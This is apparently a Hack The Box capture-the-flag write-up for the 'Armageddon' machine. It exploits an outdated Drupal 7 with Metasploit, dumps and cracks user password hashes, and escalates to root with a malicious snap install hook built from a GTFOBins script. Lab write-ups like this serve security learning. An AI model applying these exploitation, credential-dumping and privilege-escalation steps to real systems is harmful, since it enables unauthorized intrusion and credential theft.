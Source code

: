 ```yaml
---                                                                                           
title: Hack The Box - Armageddon writeup                          
date: 2021-08-03 12:38:00 +0200                                                              
categories: [ Hack The Box, Machines]                                                                
tags: [outdated-software, common-vulnerability, metasploit, drupal, john-the-ripper  ]     
dirImg: /assets/img/HackTheBox/Armageddon                     
image:
  src: /assets/img/HackTheBox/Armageddon/icon.webp
  alt: Armageddon image
toc: false                                                                                    
---
```



Start with usual nmap enumeration 
```sh
>> nmap -sV -sC -oN nmap-initial 10.10.10.233

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```

## Foothold

It is possible to notice some exposed resources from the output of nmap.   
The file *CHANGELOG.txt* reports that the Drupal version in use is the 7.56, whose last update was in 2017.  
It tells us that the service has not been updated for a while. Thus we look for vulnerabilities in Drupal.

```sh
>> searchsploit drupal 7.56                                                                                                                                                                          
-------------------------------------------------------------------------------- ---------------------------------                                                                                                                         
 Exploit Title                                                                  |  Path                                                                                                                                                    
-------------------------------------------------------------------------------- ---------------------------------                                                                                                                         
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)        | php/webapps/44557.rb                                                                                                                                     
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)     | php/webapps/44542.txt                                                                                                                                    
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execu | php/webapps/44449.rb                                                                                                                                     
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Met | php/remote/44482.rb                                                                                                                                      
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC | php/webapps/44448.py               
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command  | php/remote/46510.rb                
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                  | php/webapps/46452.txt              
Drupal < 8.6.9 - REST Module Remote Code Execution                              | php/webapps/46459.py               
-------------------------------------------------------------------------------- ---------------------------------   
```

We are looking for remote code execution. *Drupalgeddon3* seems to be what we really need. 


#### Using metasploit
The exploit is also available as a metasploit module: `unix/webapp/drupal_drupalgeddon2 `   
We set the options and run the exploit. We get a meterpreter shell as the **apache** user

The exploit can be easily performed without metasploit. Try it if you want more insights on the vulnerability and how the exploit works.  
Alternatively, you can set the proxy option in the meterpreter module, pointing to your proxy (e.g. Burp). You can then study the traffic to analyze what the exploit is doing.

## User

By printing the /etc/passwd file we find out that the machine has a user named brucetherealadmin.
```sh
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```


The file *.gitignore* lists some interesting files that is worth looking at.  
One of them is the *sites/* directory.

We analyze the content of this directory and after some minutes of manual search, we found in *sites/all/settings* the password of *drupaluser* for the *mysql* database.
```
$databases = array (                                                                                 
  'default' =>                                                                                       
  array (                                                                                            
    'default' =>                                                                                     
    array (                                                                                          
      'database' => 'drupal',                                                                        
      'username' => 'drupaluser',                                                                    
      'password' => 'CQHEy@9M*m23gBVj',                                                              
      'host' => 'localhost',                                                                         
      'port' => '',                                                                                  
      'driver' => 'mysql',                                                                           
      'prefix' => '',                                                                                
    ),                                                                                               
  ),                                                                                                 
);    
```

We first try the password with *brucetherealadmin* in ssh but does not work. 

As expected, the credentials are valid for the mysql database.

I couldn't access the database interactively because the shell froze after each attempt. So I wrote an inline mysql command to get the names of the tables:
```sh
mysql -u drupaluser -p drupal -e "show tables;"
```
The database has a bunch of tables. We proceed by dumping the *Users* table and getting the password hash of *brucetherealadmin*.
```
bash-4.2$ mysql -u drupaluser -p drupal -e "select name,pass,mail from users;"
Enter password: 
name    pass    mail

brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu
kera    $S$D4fb5rvwm0575Wnd4tgE.vhQ7xMjPiK0g/yC5xbH2EXQe7lKx22R kera@local.host
xsombi  $S$DdWvgfvc2Sv4BChUQLYUpvbvL5poB/6y0A0j.7OrlPnGRDEoaUCx xsombi@mail.com
blafucker       $S$DtI2o1d6OJzZn6cn4TlFBuGpCskt6VYkbE21YiemNVCtNoJGiM3Y bla@bla.com
```

The hash is in Drupal7 format, which is not available in hashcat but it's supported by John the Ripper.

```sh
john --format=Drupal7 --wordlist /usr/share/wordlists/rockyou.txt hash
```
In less then a second we get the cracked password: `booboo`

We can now login to brucetherealadmin in ssh and get the flag.


## Root
We enumerate which commands the user *brucetherealadmin* can execute as sudo.
As we see from the output of `sudo -l`, the user can execute `sudo snap install *` without being asked for a password. The **\*** means that any argument can be passed. 

Such behavior looks quite odd. We look in *GTFObins* to see if it can be exploitable.  
Turns out that we can build our own malicious snap package and install it in the victim machine, triggering code execution under the *root* user. 

We slightly modify the GTFO script to print the root flag ( a reverse shell could have been injected too), and we run it in the host machine. The malicious snap package will be created.
```sh
COMMAND='cat /root/root.txt'
init_dir=$(pwd)
temp=$(mktemp -d)
cd $temp
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n namesnap -s dir -t snap -a all meta
cp  $temp/namesnap* $init_dir
```

We transfer the package just created to the victim machine and we install it.  
Install the snap package:
```sh
[brucetherealadmin@armageddon tmp]$ sudo snap install /tmp/out.snap --dangerous --devmode                                                                                                              
error: cannot perform the following tasks:
- Run install hook of "namesnap" snap if present (run hook "install": 44ea752ae10856a7f3200e0e7718d898)
```

The --dangerous flag is required because the snap is not signed by the Snap Store. The --devmode flag acknowledges that you are installing an unconfined application.

The root flag is displayed.
